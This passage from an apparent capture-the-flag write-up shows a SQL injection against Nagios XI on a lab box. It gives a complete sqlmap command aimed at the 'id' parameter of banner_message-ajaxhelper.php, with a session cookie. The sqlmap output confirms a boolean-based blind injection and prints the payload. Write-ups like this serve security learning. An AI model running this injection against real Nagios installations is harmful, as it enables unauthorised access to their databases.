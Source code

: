 That seems to be working. I'll try an SQL injection:

![](/img/image-20240508194415753.png)

#### sqlmap

Typically I like to show manually doing the injection, but the database
here is large, so I'll go right to `sqlmap`. For some reason this was a
bit tricky to get working with `sqlmap`. What eventually works for me is
building the command based on the advisory:



    oxdf@hacky$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=bspu3ilq508jivkicfqofjo29g" --batch --threads 10
     ...[snip]...
     POST parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
    sqlmap identified the following injection point(s) with a total of 260 HTTP(s) requests:
    ---
    Parameter: id (POST)
        Type: boolean-based blind
        Title: Boolean-based blind - Parameter replace (original value)
        Payload: id=(SELECT (CASE WHEN (8029=8029) THEN 3 ELSE (SELECT 2283 UNION SELECT 1083) END))&action=acknowledge_banner_message
